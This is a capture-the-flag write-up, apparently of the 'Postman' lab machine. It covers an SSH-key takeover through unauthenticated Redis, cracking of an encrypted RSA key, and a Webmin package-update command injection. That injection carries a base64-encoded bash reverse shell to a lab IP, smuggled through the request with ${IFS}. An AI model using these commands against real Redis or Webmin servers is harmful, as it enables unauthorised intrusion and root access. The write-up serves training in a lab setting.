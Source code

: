 ![postman](https://user-images.githubusercontent.com/66635295/177882324-7b24b663-8911-4c1c-81c6-85fbc14f3ea8.png)

**RECON**
---
**Unfinished Website**
![recon](https://user-images.githubusercontent.com/66635295/177882332-fd817d49-3650-4a0b-b8cf-9bd12907a41d.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.160</pre>
-allports -version -Aggressive

Port 6379 Redis and Port 1000 Webpage
![nmap](https://user-images.githubusercontent.com/66635295/177882433-ba2d38f8-69fc-49e7-99ff-10ab7c868bd8.png)

**Webpage check**

Wepbpage shows an error, link does not work 
![10000](https://user-images.githubusercontent.com/66635295/177882646-5ebf6232-adf3-4e15-8cdd-b284ba8791f7.png)

Navigating to the proper page reveals Webmin login 
![webmin](https://user-images.githubusercontent.com/66635295/177882796-f0ff7900-9296-4471-b394-01b121af3ef9.png)

**Redis**
<pre> sudo apt-get install redis-tools </pre>
![redis install](https://user-images.githubusercontent.com/66635295/177883042-2adb0cbf-6e2c-44bc-a428-e99c52c57325.png)

Redis Host
<pre>redis-cli -h 10.10.10.160</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178047298-847ee0b2-b196-4674-ab2e-499e5b6a23fc.png)

Directory Check
<pre>CONFIG GET dir</pre>
<pre> CONFIG SET dir /var/lib/redis/.ssh</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178054227-24f483cd-851e-4e7d-9feb-120da1f1ff95.png)

**ENUMERATION**
---
**SSH Key**
<pre>ssh-keygen</pre>
![sshgen](https://user-images.githubusercontent.com/66635295/178054662-4469fc0a-1040-438b-9c44-6c62b8568dfc.png)

Copy key to .txt file
<pre> (echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > key.txt  </pre>            
![keytxt](https://user-images.githubusercontent.com/66635295/178055503-d0f774e4-6c69-409a-99cf-c0eac96f8106.png)

Send key to host
<pre>cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key</pre>
![rkey](https://user-images.githubusercontent.com/66635295/178055971-545373bc-d97d-4ea1-bc7b-07574185d1e4.png)

Check key
<pre>get ssh_key</pre>
![check key](https://user-images.githubusercontent.com/66635295/178056511-f5151520-69fe-4dce-b9e5-8571d4c55139.png)

Set database
<pre>CONFIG SET dir /var/lib/redis/.ssh </pre>
<pre>CONFIG set dbfilename authorized_keys</pre>
<pre>save</pre>
<pre>exit</pre>
![set db](https://user-images.githubusercontent.com/66635295/178056953-a2d34e4d-f7b1-40db-b2ff-c58c8c4db9f3.png)


SSH into the host
<pre> ssh - id_rsa redis@10.10.10.160 </pre>

**Checking  Directorys**

authorized_keys directory is here 

![directory](https://user-images.githubusercontent.com/66635295/178059417-c9d01199-9069-4e64-9c48-840fba1f2d65.png)

Home directory 
<pre>ls -l</pre>
<pre>cd Matt</pre>
<pre>ls -l</pre>
User Matt has read permison for user flag

![matt](https://user-images.githubusercontent.com/66635295/178060409-6bc981cb-aca1-4f61-a78d-4dda178c30a0.png)

Opt Directory
<pre> cat id_rsa.bak </pre>
Reveals Private RSA KEY 


**PRIVILEGE ESCALATION**
---
**John the Ripper**
Copy paste the key and transfer it to .john
<pre> /usr/share/john/ssh2john.py postman_id_rsa_enc > postman_id_rsa.john </pre>
![sshtojohn](https://user-images.githubusercontent.com/66635295/178073942-d24e2b6a-b6c2-4652-8406-c8b7cb4242b2.png)

Cracked Password 
<pre> john postman_id_rsa.johm --wordlist=/usr/share/wordlists/rockyou.txt </pre>
Jonhn and rockyou.txt reveals password to be computer2008

![cracked](https://user-images.githubusercontent.com/66635295/178074216-551f939e-0907-4646-9070-fcedf0739f41.png)

**SSH Matt**
<pre>ssh Matt@10.10.10.160</pre>
Matt is denied permission

![fail matt](https://user-images.githubusercontent.com/66635295/178074458-e94015eb-af59-4635-88ca-d72305f099ae.png)

Checking SSH 
<pre>cd /etc/ssh/</pre>
<pre>ls</pre>
![sshconfig](https://user-images.githubusercontent.com/66635295/178074642-1a9db243-8f0e-4b36-b167-20d7103f491f.png)

reading sshd_config shows Matt is a denied login 

![denny](https://user-images.githubusercontent.com/66635295/178074725-c7d3d884-8855-4f91-aab4-b122591dbe00.png)

Postmatt
<pre> su Matt </pre>
<pre> Password: computer2008 </pre>

![postmatt](https://user-images.githubusercontent.com/66635295/178075034-35d1fd9d-d29c-4def-846f-df32e4c3d510.png)

Flag is now accessible 

![user flag](https://user-images.githubusercontent.com/66635295/178075070-f098c396-939f-4315-8073-d0e6d0a53312.png)

Webin is also accessible via same password

![mattlogin](https://user-images.githubusercontent.com/66635295/178095015-e4c8460d-8f94-4793-a0d4-d45035112b3f.png)

Checking Version shows webin 1.910

![version](https://user-images.githubusercontent.com/66635295/178095064-db2a39be-d321-41b3-9c3c-48097a84a05d.png)

**Root shell**
---
**Vulnearbilty**

CVE 2019-12850 is a severe vulnerability 

![vuln](https://user-images.githubusercontent.com/66635295/178095122-fe3ad733-aa3d-4bda-8e4d-b46ab7dd55a0.png)

Maneuver to Package Updates and turn on Burpsuite interceptor 

![burpon](https://user-images.githubusercontent.com/66635295/178095397-ea80e6f1-a9b4-4ae5-ab8d-8229afeb5fc5.png)

Send package-updates request to the repeater. Clear out some of the extra HTTP and add u=acl%2Fapt&u=$ to execute commands.

![check](https://user-images.githubusercontent.com/66635295/178095579-cd0cffb2-676e-4c12-be58-da3e29e627f1.png)

**Payload** 

Base64
<pre>echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.9/4444 0>&1"'| base64 </pre>
-newline -command_string -interactive_shell standard output TCP connection HOST/LISTENING PORT standard input

![base64](https://user-images.githubusercontent.com/66635295/178096539-257455ab-9507-4c0e-beb6-d6016db08edc.png)

Netcat
<pre> nc -lvp 4444 </pre>
-listen -verbose -port

![netcat](https://user-images.githubusercontent.com/66635295/178096671-66df4f9c-4244-4504-bda1-2382c01f559d.png)

URL Encode
<pre>$(echo${IFS}TCPSTRING|base64${IFS}-d|bash)</pre>
{IFS} prevent command from splitting  -decode

![url](https://user-images.githubusercontent.com/66635295/178096699-4811c722-342f-48be-a4c9-e05f10c36c88.png)


Put payload in the repeater

![payload](https://user-images.githubusercontent.com/66635295/178097240-7bad79e8-c25f-4922-bf62-333b3ce8f9d6.png)

**Shell**

Root Connection on listner

![shell](https://user-images.githubusercontent.com/66635295/178097333-c92dc960-1b42-4656-b3c9-1950676d08f4.png)

Flag in home directory

![rootflag](https://user-images.githubusercontent.com/66635295/178097415-cb60be01-dfa4-4b18-91c7-1510c068e727.png)


